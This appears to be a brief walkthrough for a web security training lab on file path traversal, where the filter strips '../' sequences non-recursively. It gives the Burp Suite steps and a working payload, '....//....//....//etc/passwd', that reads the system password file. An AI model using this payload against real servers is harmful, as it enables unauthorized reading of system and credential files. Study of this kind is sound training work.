 # File path traversal, traversal sequences stripped non-recursively

## This lab contains a [file path traversal] vulnerability in the display of product images.

## The application strips path traversal sequences from the user-supplied filename before using it.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

### step1

intercept image in burpsuite
GET /image?filename=21.jpg HTTP/1.1

step2
change url
ET /image?filename=....//....//....//etc/passwd
and send forward turn of intercept

![screenshot](./images/lab3_http_request.png)
